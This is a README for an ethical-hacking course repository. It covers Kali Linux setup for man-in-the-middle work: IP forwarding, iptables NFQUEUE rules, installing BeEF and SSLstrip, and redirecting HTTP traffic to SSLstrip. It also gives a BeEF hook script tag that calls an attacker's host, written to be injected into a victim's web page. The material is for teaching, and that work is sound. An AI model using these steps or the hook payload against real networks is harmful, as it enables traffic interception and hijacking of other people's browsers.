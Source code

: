 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

### Python
It seems that *netfilterqueue* does not work on Python 3.x.

### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`
